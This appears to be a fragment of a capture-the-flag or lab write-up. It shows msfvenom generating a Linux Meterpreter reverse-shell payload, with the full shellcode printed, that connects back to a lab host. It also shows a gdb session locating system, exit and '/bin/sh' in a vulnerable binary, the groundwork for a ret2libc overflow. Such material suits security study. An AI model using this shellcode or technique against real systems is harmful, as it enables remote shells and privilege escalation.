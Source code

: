 Generating exploit code:

```
$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.14.28 LPORT=4242 -a x86 -f py
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No encoder specified, outputting raw payload
Payload size: 123 bytes
Final size of py file: 613 bytes
buf =  b""
buf += b"\x6a\x0a\x5e\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\xb0"
buf += b"\x66\x89\xe1\xcd\x80\x97\x5b\x68\x0a\x0a\x0e\x1c\x68"
buf += b"\x02\x00\x10\x92\x89\xe1\x6a\x66\x58\x50\x51\x57\x89"
buf += b"\xe1\x43\xcd\x80\x85\xc0\x79\x19\x4e\x74\x3d\x68\xa2"
buf += b"\x00\x00\x00\x58\x6a\x00\x6a\x05\x89\xe3\x31\xc9\xcd"
buf += b"\x80\x85\xc0\x79\xbd\xeb\x27\xb2\x07\xb9\x00\x10\x00"
buf += b"\x00\x89\xe3\xc1\xeb\x0c\xc1\xe3\x0c\xb0\x7d\xcd\x80"
buf += b"\x85\xc0\x78\x10\x5b\x89\xe1\x99\xb2\x6a\xb0\x03\xcd"
buf += b"\x80\x85\xc0\x78\x02\xff\xe1\xb8\x01\x00\x00\x00\xbb"
buf += b"\x01\x00\x00\x00\xcd\x80"
```

```

$ gdb /usr/local/bin/ovrflw -q
gdb /usr/local/bin/ovrflw -q
Reading symbols from /usr/local/bin/ovrflw...(no debugging symbols found)...done.
(gdb) b main
b main
Breakpoint 1 at 0x8048480
(gdb) p system
p system
No symbol table is loaded.  Use the "file" command.
(gdb) r
r
Starting program: /usr/local/bin/ovrflw 

Breakpoint 1, 0x08048480 in main ()
(gdb) p system
p system
$1 = {<text variable, no debug info>} 0xb75f1310 <__libc_system>
(gdb) find 0xb75f1310, +9999999, "/bin/sh"
find 0xb75f1310, +9999999, "/bin/sh"
0xb7713bac
warning: Unable to access 16000 bytes of target memory at 0xb775df34, halting search.
1 pattern found.
(gdb) x/s 0xb7713bac
x/s 0xb7713bac
0xb7713bac:     "/bin/sh"
(gdb) p exit
p exit
$2 = {<text variable, no debug info>} 0xb75e4260 <__GI_exit>
(gdb) 
```

